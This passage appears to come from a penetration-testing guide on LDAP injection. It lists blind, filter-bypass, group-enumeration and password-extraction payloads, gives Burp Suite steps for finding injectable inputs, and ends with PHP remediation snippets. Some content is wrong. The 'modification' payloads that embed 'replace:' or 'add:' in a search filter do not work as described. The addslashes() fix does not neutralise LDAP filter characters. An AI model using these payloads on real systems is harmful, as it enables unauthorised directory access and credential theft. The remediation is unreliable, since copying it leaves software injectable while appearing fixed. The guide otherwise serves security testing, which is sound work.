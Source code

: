 - **Blind Injection Payloads**:
  - `admin)(&(uid=admin)(objectClass=*))` (True condition)
  - `admin)(&(uid=admin)(objectClass=invalid))` (False condition)
  - `admin)(&(uid=a*))` (Tests first character)

- **Filter Bypass Payloads**:
  - `%2a)(uid=%2a` (URL-encoded wildcard)
  - `admin%29%28uid%3d%2a` (Encoded bypass)
  - `*)(|(cn=admin)(cn=user))` (OR condition)

- **Group Membership Enumeration Payloads**:
  - `*)(memberOf=cn=admins,dc=example,dc=com` (Extracts admin group members)
  - `*)(memberOf=*` (Extracts all group memberships)
  - `*)(isMemberOf=cn=users,dc=example,dc=com` (Alternative attribute)

- **LDAP Modification Payloads**:
  - `*)(userPassword=*` (Attempts password extraction)
  - `*)(&(uid=admin)(replace: userPassword=newpass))` (Attempts password change)
  - `*)(add: memberUid=attacker)` (Attempts group membership addition)

**Note**: Payloads depend on the LDAP schema (e.g., Active Directory, OpenLDAP) and query structure. Test payloads in query parameters, form fields, or headers where LDAP queries are likely used.

### 1. Identify Input Vectors

**Objective**: Locate user-controllable inputs that may be used in LDAP queries.

**Steps**:
1. Browse the website:
   - Visit the target (e.g., `http://example.com`).
   - Identify login forms, search fields, or APIs that may query LDAP directories.
2. Capture requests with Burp Suite:
   - Enable Intercept (Proxy > Intercept > On).
   - Submit forms or click links to capture requests in HTTP History.
   - Note parameters (e.g., `user=admin`, `query=john`).
3. Inspect responses:
   - Check for LDAP-related errors (e.g., `Invalid DN syntax`) or directory data.
   - Use Developer Tools (`Ctrl+Shift+I`) to search for LDAP attributes in output.
4. List input vectors:
   - Document query parameters, form fields, headers, and JSON payloads.

**Example Input Vectors**:
- URL: `http://example.com/login?user=admin`
- Form: `<input name="username">`
- API: `POST /api` with `{"user": "admin"}`

**Remediation**:
- Validate inputs with allowlists:
  ```php
  if (!preg_match('/^[a-zA-Z0-9]+$/', $_GET['user'])) die("Invalid input");
  ```
- Escape special characters:
  ```php
  $user = addslashes($_GET['user']);
  ```
